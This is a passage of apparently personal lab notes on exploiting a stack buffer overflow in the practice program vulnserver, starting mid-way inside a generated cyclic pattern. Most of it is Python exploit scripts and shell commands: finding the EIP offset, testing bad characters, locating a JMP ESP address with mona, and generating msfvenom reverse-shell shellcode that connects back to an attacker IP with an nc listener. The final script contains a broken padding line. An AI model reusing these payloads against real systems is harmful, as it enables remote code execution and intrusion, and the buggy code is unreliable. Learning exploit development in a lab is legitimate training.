i6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9"

#this is copied from the generated pattern

try:
    payload = 'TRUN /.:/' + offset
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.30.139',9999))
    s.send((payload.encode()))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()

```

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
#generates code, which has to be sent to vulnserver through a script
#used -l 3000 because we know program crashes around 3000 bytes

vim finding_offset_script.py

chmod +x finding_offset_script.py

./finding_offset_script.py
#this crashes the vulnserver program
#and gives us the EIP value 386F4337

#to find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
#this shows us the pattern offset
#there is an exact match at offset 2003
```

## Overwriting the EIP

* As we have found the required offset, we can edit previous script itself.

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4
#EIP starts at offset 2003
#4 bytes for the EIP

try:
    payload = 'TRUN /.:/' + shellcode
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.30.139',9999))
    s.send((payload.encode()))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()

```

```shell
vim finding_offset_script.py

./finding_offset_script.py
#this breaks the program
```

* On executing the script, we can see that the EIP has been overwritten in the way we want it to.

## Finding Bad Characters

```python
#!/usr/bin/python
import sys, socket

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)


shellcode = "A" * 2003 + "B" * 4 + badchars

try:
    payload = 'TRUN /.:/' + shellcode
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.30.139',9999))
    s.send((payload.encode()))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()

```

```shell
sudo pip install badchars

badchars -f python
#generates badchars, can be copied to script

vim finding_badchars.py

chmod +x finding_badchars.py

./finding_badchars.py
```

* After executing the script, we can check the hexdump in Immunity Debugger by selecting ESP > Right-Click > Follow in Dump.

* If there is any character that is out of order (between 01 to FF), we can infer that it would be a bad character.

* Note all bad characters in hexdump, as they will be included in shellcode later; if there are consecutive bad characters, only the first one is a bad character out of them.

## Finding the Right Module

* We can use [Mona modules tool](https://github.com/corelan/mona) with Immunity Debugger in finding the right module.

* To get all modules, we have to enter ```!mona modules``` in the command bar in Immunity Debugger; we have to select the module which has maximum protection settings as ```False```, and attached to vulnserver.

* In this case, we have ```essfunc.dll``` module.

```shell
#we need to convert assembly code into hex code
locate nasm shell
#gives location for nasm_shell.rb

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
#opens nasm shell

JMP ESP
#gives hex equivalent FFE4
#the command would be required in Immunity Debugger

exit
```

* Now, we have to enter ```!mona find -s "\xff\xe4" -m essfunc.dll```, where FFE4 is the required opcode, in the command bar in Immunity Debugger.

* Referring the results, we have multiple return addresses such as ```0x625011af```, with all memory protections set ```False```; we can use this in our script.

```python
#!/usr/bin/python
import sys, socket

#return address 0x625011af
#as x86 format uses Little Endian, we have to enter address in reverse
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
#this hits a jump point
#which can be caught in Immunity Debugger

try:
    payload = 'TRUN /.:/' + shellcode
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.30.139',9999))
    s.send((payload.encode()))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()

```

```shell
#editing our previous script
vim finding_badchars.py

#after setting breakpoint
./finding_badchars.py
```

* Now, in Immunity Debugger, before executing the script, we have to set a breakpoint at the ```JMP ESP``` command (625011af).

* On executing the program, we have hit a breakpoint, and we control the EIP now; we can point this EIP to malicious shellcode, which can help us in gaining root.

## Generating Shellcode

```shell
#to generate shellcode and paste into python script
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.153 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
#-p for reverse tcp payload to get shell
#exitfunc=thread for making shell stable
#-f c for exporting as C code
#-a for x86 architecture
#-b for any badchars to include; we include null char here
```

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xda\xd1\xb8\x12\xb4\xad\xf1\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x31\x43\x17\x03\x43\x17\x83\xd1\xb0\x4f\x04\x29\x50\x0d"
"\xe7\xd1\xa1\x72\x61\x34\x90\xb2\x15\x3d\x83\x02\x5d\x13\x28"
"\xe8\x33\x87\xbb\x9c\x9b\xa8\x0c\x2a\xfa\x87\x8d\x07\x3e\x86"
"\x0d\x5a\x13\x68\x2f\x95\x66\x69\x68\xc8\x8b\x3b\x21\x86\x3e"
"\xab\x46\xd2\x82\x40\x14\xf2\x82\xb5\xed\xf5\xa3\x68\x65\xac"
"\x63\x8b\xaa\xc4\x2d\x93\xaf\xe1\xe4\x28\x1b\x9d\xf6\xf8\x55"
"\x5e\x54\xc5\x59\xad\xa4\x02\x5d\x4e\xd3\x7a\x9d\xf3\xe4\xb9"
"\xdf\x2f\x60\x59\x47\xbb\xd2\x85\x79\x68\x84\x4e\x75\xc5\xc2"
"\x08\x9a\xd8\x07\x23\xa6\x51\xa6\xe3\x2e\x21\x8d\x27\x6a\xf1"
"\xac\x7e\xd6\x54\xd0\x60\xb9\x09\x74\xeb\x54\x5d\x05\xb6\x30"
"\x92\x24\x48\xc1\xbc\x3f\x3b\xf3\x63\x94\xd3\xbf\xec\x32\x24"
"\xbf\xc6\x83\xba\x3e\xe9\xf3\x93\x84\xbd\xa3\x8b\x2d\xbe\x2f"
"\x4b\xd1\x6b\xff\x1b\x7d\xc4\x40\xcb\x3d\xb4\x28\x01\xb2\xeb"
"\x49\x2a\x18\x84\xe0\xd1\xcb\x6b\x5c\xc7\x92\x04\x9f\xf7\xb5"
"\x88\x16\x11\xdf\x20\x7f\x8a\x48\xd8\xda\x40\xe8\x25\xf1\x2d"
"\x2a\xad\xf6\xd2\xe5\x46\x72\xc0\x92\xa6\xc9\xba\x35\xb8\xe7"
"\xd2\xda\x2b\x6c\x22\x94\x57\x3b\x75\xf1\xa6\x32\x13\xef\x91"
"\xec\x01\xf2\x44\xd6\x81\x29\xb5\xd9\x08\xbf\x81\xfd\x1a\x79"
"\x09\xba\x4e\xd5\x5c\x14\x38\x93\x36\xd6\x92\x4d\xe4\xb0\x72"
"\x0b\xc6\x02\x04\x14\x03\xf5\xe8\xa5\xfa\x40\x17\x09\x6b\x45"
"\x60\x77\x0b\xaa\xbb\x33\x2b\x49\x69\x4e\xc4\xd4\xf8\xf3\x89"
"\xe6\xd7\x30\xb4\x64\xdd\xc8\x43\x74\x94\xcd\x08\x32\x45\xbc"
"\x01\xd7\x69\x13\x21\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" + 32 + overflow
#first 2003 bytes to get to EIP
#pointer address for JMP ESP
#jumps to our shellcode (overflow)
#add x90 and 32 (knobs or no operation) for padding our shellcode

try:
    payload = 'TRUN /.:/' + shellcode
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.30.139',9999))
    s.send((payload.encode()))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()

```

```shell
vim getting_access.py

chmod +x getting_access.py

nc -nvlp 4444
#setup nc listener before executing script

./getting_access.py
#this gives us root access
#if vulnserver is run as administrator
```

